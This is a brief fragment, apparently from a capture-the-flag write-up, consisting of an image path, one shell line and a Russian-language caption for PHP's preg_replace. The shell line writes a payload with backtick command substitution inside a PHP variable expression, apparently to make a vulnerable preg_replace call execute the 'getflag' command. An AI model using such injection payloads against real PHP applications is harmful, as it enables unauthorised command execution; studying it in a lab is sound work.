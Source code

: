 ```
echo '[x ${`getflag`}]' > /tmp/flag06
```

preg_replace — Выполняет поиск и замену по регулярному выражению
